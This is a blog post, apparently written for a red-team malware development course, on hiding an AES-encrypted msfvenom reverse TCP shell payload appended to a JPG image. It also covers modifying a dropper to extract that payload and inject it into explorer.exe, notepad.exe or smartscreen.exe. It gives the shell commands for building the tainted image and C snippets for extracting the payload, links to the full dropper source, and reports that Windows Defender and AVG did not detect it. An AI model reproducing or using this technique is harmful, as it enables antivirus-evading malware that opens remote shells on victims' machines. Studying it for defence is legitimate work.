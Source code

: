 ```yaml
---
layout: single
title: AV Evasion - The payload is behind kitties
date: 2020-09-22
classes: wide
header:
  teaser: /assets/images/AV_evasion/kittens.jpg
tags:
  - Pentester
  - Windows
  - Reverse shell
  - AV Evasion
  - Kitties
--- 
```

![](/assets/images/AV_evasion/kittens.jpg)<br>

## Introduction
Hello and welcome back to the 2nd assignment of the well done course on Malware Development by [Sektor7](https://institute.sektor7.net/red-team-operator-malware-development-essentials), in the previous [blog post](https://blackcloud.me/av-evasion-1/) we saw PE injection using a payload saved as a favicon.ico file, with all the functions and payload encrypted with AES. The next assignment is to hide the payload inside an image and implement the dropper with the capacity of extraction of the payload and injecting it in the PE process target.

## The Assignment
Let's start taking our last dropper and check what we have and what we must change.<br>
The most of the code is working pretty well as we saw, but the payload extraction has to be changed because now reenz0h asked to hide the payload inside an image and extract it before injecting in the victim process, so take a look closer to the payload memory loading and analyze what we have to change.

## the Payload
First of all we need to choose how hide our payload behind an image and most important how we want to extract it before using it. <br>
The hint in the assignemt page says we can use file concatenation. So we choosed this way to work (a big thank you to reenz0h for the help):
- Take a kitties image from internet (who doesn't love kitties? :))
- Create the payload with msfvenom
-- in this case I choosed a simple reverse tcp windows x64 shell
- Encrypt the payload with AES
- Append the encrypted payload at the end of the image 
- Append the original lenght of image as last bytes in the image

Once we downloaded the kitties image from internet we can check last 11 rows of the hexadecimal values of the image with ```xxd```
```bash
xxd -g1 U.jpg |  tail -11 
00330990: 81 f1 c0 8a b8 e5 e3 18 00 0e 13 62 25 25 3c 4d  ...........b%%<M
003309a0: f6 02 dc e7 98 fc 6f f6 62 59 5f c2 31 93 3c e2  ......o.bY_.1.<.
003309b0: 85 80 12 07 53 ba 85 c9 20 fe 97 e3 7c 0d c0 03  ....S... ...|...
003309c0: 96 d0 65 4f 89 a7 aa 78 21 2a 0a 58 29 2a b1 1a  ..eO...x!*.X)*..
003309d0: 6f 73 6c 08 53 2d e1 95 45 55 3c d3 4a 9f 09 0b  osl.S-..EU<.J...
003309e0: 1a 46 a3 cc 08 bf 37 bb 17 14 98 c8 38 9e eb 48  .F....7.....8..H
003309f0: 6a 94 92 4e a5 ac 8e 53 74 82 6d f6 fc 7c b0 51  j..N...St.m..|.Q
00330a00: 44 77 c8 1a 70 d2 57 c8 90 db 7a b4 bc 06 d6 e6  Dw..p.W...z.....
00330a10: 4a f5 95 03 ea ed 6e 1f 8e 08 a9 8f 2f 24 b6 f3  J.....n...../$..
00330a20: 7a 65 63 ae a5 cb ea 59 17 d1 60 b4 f3 a9 44 6e  zec....Y..`...Dn
00330a30: 3a e2 56 ce 6c e3 76 41 16 d0 cf ff d9           :.V.l.vA.....
```
Now after the encryption of the payload we can use a copy of the original image (is usefull to work on a copy just in case something doesn't work as exepected, you don't have to download the image everytime) and append the encrypted paylaod to the image with the ```cat``` command

```bash
cat payload_enc >> kittens.jpg
```
Now check the tail of the image compared with the encrypted payload to see if everithing is loaded correctly
![](/assets/images/AV_evasion/hex_compare.png)
As we can see after the hex values ``ff d9`` (that's in the end of every jpg file) we have our encrypted payload. <br>
After that we have to append the value of the size of the original image, in this case 3344957 bytes 

```bash
echo "3344957" >> kittens.jpg
```
Check again the last hex values of the manipulated jpg
![](/assets/images/AV_evasion/hex_compare2.png)<br>
Great! our devil jpg is ready. Now we have to modify our dropper to extract the payload from the image in our victim machine 

## the Dropper
Let's change the name of the payload as a recource by the file ```resources.rc``` to ```kittens.jpg```
```
#include "resources.h"

IMAGE RCDATA kittens.jpg
```
The dropper has a section where the payload is loaded as a resource with the ```FindResourceA``` and ```LoadResource``` functions, its lenght is calculated with ```SizeofResource``` then it is loaded in memory with the ```VirtualAlloc``` function

```bash
...
// Extract payload from resources section
    res = pFindResourceA(NULL, MAKEINTRESOURCE(FAVICON_ICO), RT_RCDATA);
    resHandle = pLoadResource(NULL, res);
    payload = (char *) pLockResource(resHandle);
    payload_len = pSizeofResource(NULL, res);

// Allocate some memory buffer for payload
    exec_mem = pVirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
...
```
In the code trunk below the Windows functions are called as pointers because of AES encryption as saw in the previous post, this techniques works very well as an AV evasion technique so we can reuse it. Now we have to change this section like this

```bash
// Extract payload from the image
    image = (char*)pLockResource(resHandle); // lock the resource and point to the first char of the jpg
    image_len = SizeofResource(NULL, res); // get the size of the jpg + p0 + last 7 bytes 
    
    end = image + image_len - 7; // jump to the end of the jpg and read the last 7 bytes that are the original size of the jpg without p0
    size = atoi(end); // cast from char to int, now size is the original size of the jpg
    offset = image + size; // offset points to the first char of the p0
    payload_len = image_len - size - 7; // calculate the payload size
    memcpy(payload, offset, payload_len); // copy in another memory area the effective payload 
    
// Allocate some memory buffer for payload
    exec_mem = pVirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
```
Long story short, instead of charging the payload from a separated file we need to:
- get the size of the devil image, 
- jump at the end of the devil image and read the last 7 bytes that are the size of the orginal image
- now we can calculate the offset from the original image and the devil image, this difference is the payload
- now we need to calculate the payload lenght
- use memcpy to load the payload in memory and use it as a resource

## Tests
As in the previos post we tested the dropper on different process: ```explorer.exe```, ```notepad.exe``` and ```smartscreen.exe``` but this case all the 3 processes inject don't trigger Windows Defender nor AVG Free, however the ```explorer.exe``` injecton cause a reload of the process in the case you exit the shell on my attacking machine and this is very loud. On the other hand nothing appens when we try to inject the ```notepad.exe```, AVG scan the dropper and let it execute the reverse shell payload maintaining the shell active also when we close Notepad and the ```notepad.exe``` process is destroyed, same story if we try to inject the ```smartscreen.exe``` process, another reverse shell session is opened without any alarm from AVG.
So we are following the TOON rule (Two is One and One is None) also in this case.  

![](/assets/images/AV_evasion/AVG_image_bypass.gif)<br>

and [here](https://github.com/bolonobolo/av_evasion/tree/master/PE_Injection/Behind%20image%20Dropper/implant.cpp) you can find the dropper code. <br>
In the next post we'll try to complete another point of the assignment ```hide the encrypted payload behind an image```.

## References
Malware Dev Essentials Course
- [Sektor7](https://institute.sektor7.net/red-team-operator-malware-development-essentials)
- [reenz0h](https://twitter.com/Sektor7Net) <br>
